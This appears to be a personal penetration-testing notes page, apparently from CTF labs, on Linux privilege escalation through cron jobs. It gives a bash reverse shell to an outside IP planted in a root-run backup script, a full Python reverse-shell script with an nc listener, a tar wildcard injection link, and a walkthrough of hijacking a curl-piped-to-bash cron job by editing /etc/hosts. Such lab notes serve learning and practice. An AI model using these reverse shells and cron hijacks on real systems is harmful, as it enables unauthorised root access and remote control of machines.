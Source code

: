 There are specific directories that we may be able to utilize to add new Cron jobs if we have the write permissions over them. These include:

```sh
/etc/crontab
/etc/cron.d
/var/spool/cron/crontabs/root

# Command
crontab -l

# Find cron job logs
cat /var/log/syslog
```

![[Pasted image 20230527090515.png]]

---
# Bash
You can see the `backup.sh` script was configured to run every minute. The content of the file shows a simple script that creates a backup of the prices.xls file.

![[Pasted image 20230527090535.png]]

As our current user can access this script, we can easily modify it to create a reverse shell, hopefully with root privileges.

```sh
#!/bin/bash
bash -i >& /dev/tcp/10.17.36.8/6666 0>&1
```

![[Pasted image 20230527090749.png]]

---
# Python
To create a Python file with a reverse shell :-

```python
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",8888)) 
dup2(s.fileno(),0)
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

And `rlwrap -f . -r nc -nvlp 8888` on our machine!

---
# tar
[Tar Wildcard Injection PrivEsc | Exploit Notes (hdks.org)](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/tar-wildcard-injection-privesc/)

---
# /etc/hosts file
```sh
james@overpass-prod:~$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We see that the cronjob fetches the buildscript from the website and pipes it to bash. To exploit this we’d need to somehow redirect the domain to our IP.
```sh
# /etc/hosts file (Check if it's Writeable)
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm  # Replace 127.0.0.1 with your IP
```

Setup a **Python** server on port 80 & create the `buildscript.sh` file with a *Reverse Shell*.